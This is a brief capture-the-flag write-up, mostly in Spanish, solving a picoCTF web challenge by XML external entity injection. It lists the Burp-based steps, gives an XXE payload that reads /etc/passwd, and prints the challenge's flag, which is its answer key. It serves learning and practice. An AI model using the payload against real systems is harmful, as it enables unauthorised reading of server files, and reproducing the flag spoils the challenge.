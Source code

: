 # Descripción
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?[Web Portal](http://saturn.picoctf.net:59804/)
Hints:
1. XML external entity Injection
# Solución
- Abrimos la página del link que nos da
- Si inspeccionamos el código no podremos encontrar nada, así que lo analizamos con BURP
- Vemos lo que sucede en el historial HTTP
- Podemos ver que se envía un XML en los 3 escenarios
- Vemos que existe una vulnerabilidad para el procesamiento del XML
- Inyectamos una identidad externa y de esta forma obtenemos la bandera
- El XML que se envía quedaría así
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<data><ID>&xxe;</ID></data>
```

```
picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}
```
# Notas adicionales
# Referencias
- https://www.youtube.com/watch?v=b1pGlutUL34